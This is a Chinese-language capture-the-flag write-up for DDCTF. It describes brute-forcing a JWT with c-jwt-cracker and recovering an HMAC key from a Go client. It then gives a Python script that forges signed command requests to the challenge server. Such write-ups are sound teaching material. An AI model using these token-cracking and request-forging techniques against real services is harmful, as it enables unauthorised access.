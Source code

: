 # DDCTF202

## 拼图游戏

纯手工

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200906061331.png)



## Web签到题

根据题目提示得到两个接口

```
Method | POST
URL    | http://117.51.136.197/admin/login
Param  | username str | pwd str
Response
token str | auth(Certification information)

- auth interface
Request
Method | POST
URL    | http://117.51.136.197/admin/auth
Param  | username str | pwd str | token str
Response
```

用c-jwt-cracker爆破login生成的jwt

得到下一步入口：

```
client dowload url: http://117.51.136.197/B5Itb8dFDaSFWZZo/client
```

是一个go文件，叫二进制队友来逆

得到收发脚本：

```python
import hmac
import base64
import time
import requests
t = time.time()
print(t)
t = str(t)

t = t[:10]
cmd="99-9"
s = "{}|".format(cmd) + t
print(s)
t = bytes(s, encoding = "utf8")
message = t
key = b'DDCTFWithYou'
h = hmac.new(key,message,digestmod='SHA256')
signature=base64.b64encode(h.digest()).decode()


burp0_url = "http://117.51.136.197:80/server/command"
burp0_headers = {"User-Agent": "Go-http-client/1.1", "Content-Type": "application/json", "Accept-Encoding": "gzip"}
burp0_json={"signature":signature ,"command": cmd,  "timestamp": s[-10:]}
print(burp0_json)
```